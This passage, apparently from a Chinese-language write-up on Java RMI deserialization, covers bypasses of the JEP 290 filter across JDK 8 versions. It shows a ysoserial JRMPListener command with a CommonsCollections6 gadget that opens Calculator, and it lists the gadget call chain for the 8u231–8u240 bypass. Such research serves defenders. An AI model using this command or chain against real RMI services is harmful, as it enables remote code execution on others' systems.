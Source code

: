  - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![bypass jdk8u121-jdk8u130](./images/41.png)

### 修复
`JDK8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 导致`JEP 290`重新可以`check`到. 

![](./images/58.png)

## 8u231~8u240
在`ByPass 8u121~8u230`的时候, `UnicastRef`类用了一层包装, 通过`DGCClient`向`JRMPListener`发起`JRMP`请求, 而在`jdk8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 此时又会被`JEP290 check`到. `ByPass 8u231~8u240`的`Gadget`如下:

```text
客户端发送数据 –> 服务端反序列化(RegistryImpl_Skle#dispatch)
UnicastRemoteObject#readObject –>
UnicastRemoteObject#reexport –>
UnicastRemoteObject#exportObject –> overload
UnicastRemoteObject#exportObject –>
UnicastServerRef#exportObject –> …
TCPTransport#listen –>
TcpEndpoint#newServerSocket –>
RMIServerSocketFactory#createServerSocket –> Dynamic Proxy(RemoteObjectInvocationHandler)
RemoteObjectInvocationHandler#invoke –>
RemoteObjectInvocationHandler#invokeMethod –>
UnicastRef#invoke –> (Remote var1, Method var2, Object[] var3, long var4)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
```
